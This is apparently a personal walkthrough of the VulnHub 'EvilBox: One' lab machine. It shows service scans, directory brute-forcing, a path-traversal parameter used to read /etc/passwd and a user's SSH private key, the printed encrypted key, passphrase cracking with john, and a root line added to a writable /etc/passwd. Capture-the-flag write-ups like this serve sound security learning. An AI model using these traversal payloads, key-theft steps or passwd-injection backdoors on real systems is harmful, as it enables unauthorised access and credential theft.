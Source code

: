 # [EvilBox: One](vulnhub.com/entry/evilbox-one,736/)

## fun rating 8/10
## difficulty 2/10

Hello and welcome to my vulnhub walkthrough, I am Infinit3i.

You can find me on:
[Tryhackme](https://tryhackme.com/p/Macr0Dino)
[Hackthebox](https://app.hackthebox.com/profile/95473)
[My Website](https://www.matthewiver.com)

We start by nmaping the box with -sVC like we always do and we only find SSH and HTTP

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/1.png)

We did a long scan with -p- incase there were high ports above what is usually looked at.

We then ran firefox with the website in the background.

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/2.png)

Looks like a normal apache default page.

`Gobuster dir -u 192.168.56.105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/3.png)

We found /secret

I then proceed to do a gobuster with /secret added on after.

`gobuster dir -u 192.168.56.105/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php`

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/4.png)

Next we wfuzz on the page we found because rarely do creators of websites create pages that do not lead to anything

`wfuzz -u "http://192.168.56.105/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/wfuzz/general/common.txt --hw 0`

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/5.png)

Finding out that command is how we locate files i look for /etc/passwd
`http://192.168.56.105/secret/evil.php?command=../../../../etc/passwd`

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/6.png)


We notice `mowree` user is added to this box. We need to find his password or id_rsa 

Found his id_rsa file by visiting `http://192.168.56.105/secret/evil.php?command=../../../../home/mowree/.ssh/id_rsa`

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/7.png)

Tried `ssh mowree@192.168.56.105 -i mowree_id_rsa`
It asked for a passphrase for the id_rsa file.

We next ssh2john the file then john it and in less than a few seconds we get the passphrase for the id_rsa

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/8.png)

Found `/etc/passwd` is writable with linpeas. We then start creating a user to put into the box
`mkpasswd -m sha-512` and input password and get `$6$TWpfK25blIf8ZNCi$a/xzXpzfrKf.4z8N10R693r64r12yvSKi.fLk.DNZZnWvy2YguRT8nhW7XVxB3V8YBWjVmpY6G6ZXbxD2uRA30`

We then create `infinit3i:$6$TWpfK25blIf8ZNCi$a/xzXpzfrKf.4z8N10R693r64r12yvSKi.fLk.DNZZnWvy2YguRT8nhW7XVxB3V8YBWjVmpY6G6ZXbxD2uRA30:0:0:root:/root:/bin/bash`

We put that line into our new /etc/passwd file and like that we are root

![flag Announcement Image](https://github.com/Infinit3i/CTF-Writeups-from-Infinit3i/blob/642c40d547ccf0ae18e08559f563ebba983ce51a/Vulnhub/EvilBox1/EvilBox1%20Images/9.png)


Thanks for visiting
Please feel free to visit my [website](https://www.matthewiver.com)
